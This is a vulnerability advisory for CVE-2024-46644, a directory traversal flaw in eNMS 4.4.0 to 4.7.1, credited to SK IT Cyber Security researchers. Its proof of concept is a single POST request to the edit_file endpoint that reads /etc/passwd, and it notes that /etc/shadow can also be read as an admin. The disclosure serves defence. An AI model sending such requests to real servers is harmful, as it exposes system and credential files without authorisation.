


# **CVE-2024-46644**


# Details
* **Vulnerability Type**: eNMS 4.4.0 < 4.7.1 Directory Traversal via edit_file
* **Affected Application**: eNMS
* **Affected Versions**: 4.4.0 < 4.7.1
* **Affected Component**: /edit_file/>[DIR]>[FILE]
* **Impact**: Unauthorized access to sensitive files, potential exposure of confidential information.

# PoC
##  ```POST /edit_file/>[DIR]>[FILE]```

Reading ```/etc/passwd``` file

```
POST /edit_file/>etc>passwd
```




If the user you are logged in with within the application is an ```admin``` , you have read access with root privileges as you can see from the example below:
<br/><br/>
Reading ```/etc/shadow``` file (depending on the process execution rights)



# References
https://www.cve.org/CVERecord?id=CVE-2024-46644
# Credits
**Andrea Pessione** and **Manuel Scala** - SK IT Cyber Security<br></br>
<a href="https://sk-it.com/">
